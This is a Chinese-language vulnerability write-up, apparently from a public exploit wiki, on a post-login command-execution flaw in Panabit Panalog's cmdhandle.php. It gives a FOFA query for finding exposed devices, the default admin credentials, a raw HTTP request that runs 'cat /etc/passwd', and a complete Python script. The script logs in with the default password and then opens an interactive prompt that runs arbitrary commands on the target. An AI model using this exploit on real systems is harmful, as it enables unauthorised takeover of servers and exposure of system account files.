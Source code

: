 # Panabit Panalog cmdhandle.php 后台命令执行漏洞

## 漏洞描述

Panabit Panalog cmdhandle.php 存在后台命令执行漏洞，攻击者可以登录后执行任意命令控制服务器

## 漏洞影响

> [!NOTE]
>
> Panabit Panalog

## FOFA

> [!NOTE]
>
> "Panalog"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/pa-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

默认账号密码为：**admin/panabit**

出现漏洞的文件为 **Maintain/command-html.php**， 请求包如下

```
POST /Maintain/cmdhandle.php HTTP/1.1
Host: 
Connection: close
Content-Length: 31
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: cloud_limit=20; cloud_left=block; PHPSESSID=9lpglosgab794j5ouvv0sg7q73

cmd=cat%2520%252Fetc%252Fpasswd
```

![](http://wikioss.peiqi.tech/vuln/pa-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : Panabit Panalog cmdhandle.php 后台命令执行漏洞                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login.php"
    cookie = "PHPSESSID=111111111111111111111peiqi"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": cookie
    }
    data = "user=admin&mypass=panabit&sec=1619123700835.617&useldap=0"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers,data=data, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/login.php.... \033[0m".format(target_url))
        if "yes" in response.text and "yn" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在默认口令 admin/panabit \033[0m".format(target_url))
            print("\033[36m[o] 设置Cookie : {} \033[0m".format(cookie))
            POC_2(target_url, cookie)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie):
    vuln_url = target_url + "/Maintain/cmdhandle.php"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": "{}".format(Cookie)
    }
    data = "cmd=cat /etc/passwd"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url,data=data, headers=headers, verify=False, timeout=5)
        if 'root' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,执行 cat /etc/passwd \033[0m".format(target_url))
            print("\033[36m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                Cmd = input("\033[35mCmd >>> \033[0m")
                if Cmd == "exit":
                    sys.exit(0)
                else:
                    POC_3(target_url, Cmd, Cookie)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, Cmd, Cookie):
    Cmd = Cmd.replace(" ", "%20")
    vuln_url = target_url + "/Maintain/cmdhandle.php"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": "{}".format(Cookie)
    }
    data = "cmd={}".format(Cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data,headers=headers, verify=False, timeout=5)
        response_data = response.text.replace("<br/>", "\n")
        print("\033[36m[o] 响应为:\n{} \033[0m".format(response_data))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/pa-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)